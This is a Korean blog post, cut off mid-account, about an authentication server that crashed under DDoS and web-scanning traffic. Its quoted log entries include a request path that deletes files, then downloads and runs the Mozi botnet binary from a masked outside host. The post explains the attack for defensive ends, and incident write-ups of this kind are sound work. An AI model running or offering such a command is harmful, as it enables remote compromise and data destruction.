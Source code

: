 사실 각 서버 프로그램들을 하나의 인스턴스 안에 세팅해도 됐지만, 어쩌다 보니 누추한 서비스에 비해 과분한 대접을 받게 되었다. 나는 각 인스턴스마다 필요한 포트를 담당자분께 요청하고, 외부에서 접근이 가능하도록 만들었다. 위 구성에 기반해 내가 생각한 서비스의 접근 형태는 다음과 같았다.

![뭔가 이상하겠지만 그래도 참아](https://i.postimg.cc/rpzLPpQH/first.png)  
{: .center}

비록 당시 각 구성요소들이 어떻게 동작하는지는 잘 몰랐지만, 이렇게 가정하고 서비스를 구축해 어쨌든 잘 동작하는 것을 확인하였다. 그리고 몇 주 뒤, **인증 서버가 사망하게 되는데...**

### 부검

로그인이 안된다는 연락을 받은 나는 인증 서버의 인스턴스에 접속해 서버가 죽은 것을 발견하였다. 로그엔 서버의 단말마가 이렇게 기록되어 있었다.

![단말마](https://i.postimg.cc/3JV8zpBV/image.png)  
{: .center .rounded-edge}

![단말마2](https://i.postimg.cc/mgsB0ZwR/image.png)  
조금 개선된 버전
{: .center .rounded-edge}

수많은 404 에러의 향연, 애초에 제한된 사용자에게만 공개될 서비스였는데 비이상적으로 많은 요청 실패가 기록되어 있다. 게다가 요청 경로들의 면면들이 모두 흉악하다.

- `/.env`
- `/.git/config`
- `/test`
- `/Api/GetCmd.aspx`
- `/shell?cd+/tmp;rm+-rf+*;wget+http://xx.xx.xx.xx:xxxxx/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws`

다행히 정보가 나간 정황은 보이지 않았다. 애초에 그럴 정보가 들어있지도 않은 상태였고. 감당할 수 없는 요청이 들어와 서버 프로세스가 사망했거나 인스턴스가 재부팅되었을 것이다. 3개의 서버 중 한 서버에만 공격이 발견되었는데, 때마침 그 서버의 이름은 XXX-**auth**. 즉 로그인/유저정보 관리 등을 수행하는 인증 서버였다. 누가 봐도 악의적인 공격.

![해커맨](https://i.postimg.cc/K80c5nhw/image.png)  
"당신의 IP를 언제든지 알고 있음"
{: .center}

내가 받은 요청 경로들을 살펴보자, 민감한 설정 파일들, 뭔가 동작하게 만들 수 있을 것 같은 명령어, 그 악명 높은 `rm -rf`도 섞여있다. 동시에 `wget`으로 `Mozi.a`라는 파일을 받으려 하는 것도 볼 수 있다. 검색을 해보니 Mozi Botnet이라는 악성코드와 연관된 것으로 보인다. 아마 내 인스턴스를 좀비 PC로 만들려는 시도였겠지. 공격자는 미리 유명 클라우드들의 IP 테이블들을 준비, 80 포트가 443 포트 혹은 기타 자주 사용되는 포트로 요청을 보내는 스크립트를 구동해놓았을 것이다. 그중 Timeout이 아닌 응답을 주는 호스트들을 기록했을 것이고, 거기서 API 안내 페이지나 기타 정보를 통해 **Auth**라는 이름을 가진 내 인증 서버를 발견했을 것이다. 그리고 본인이 가진 좀비 PC들을 동원해 요청 폭탄을 터트리고(**DDoS 공격**), 취약점 탐색을 시도한 것으로 보인다(**웹 스캐닝**).

### 소 잃고 외양간 고치기

사실 가게 문을 활짝 열어놓은 순간부터 이런 공격 시도 자체를 원천 차단하는 방법은 없다. 적어도 내가 알기론. 외부 접속이 가능하게 만든 서비스는 그 말대로 누구든 외부에서 접속이 가능해야 하기 때문. 프로그래밍적으로 존재하지 않는 API는 404 에러를, 권한이 없는 API는 401 에러를 반환해 줄 순 있지만, 그 요청 자체를 막을 순 없다. 따라서 우리 서비스를 지키기 위해선 트래픽을 꾸준히 모니터링하면서 비정상적인 접속을 시도하는 IP 주소를 차단해 줘야 한다. 하지만 이번 문제는 나의 무지가 자초한 부분도 있었다. 앞서 내가 생각했던 서비스 구조를 다시 보자.

![뇌피셜](https://i.postimg.cc/rpzLPpQH/first.png)  
{: .center}

사실 내 서비스는 이렇게 동작하지 않았다. 앞서 내가 *"각 구성요소들이 어떻게 동작하는지는 잘 몰랐지만"*이라고 말한 것이 복선. 나는 이 프로젝트가 한창 개발 중일 때 에이전트 개발 담당이었기 때문에 각 서버가 어떻게 통신하는지 잘 몰랐었다. 실제 통신은 다음과 같이 이루어지고 있었다.
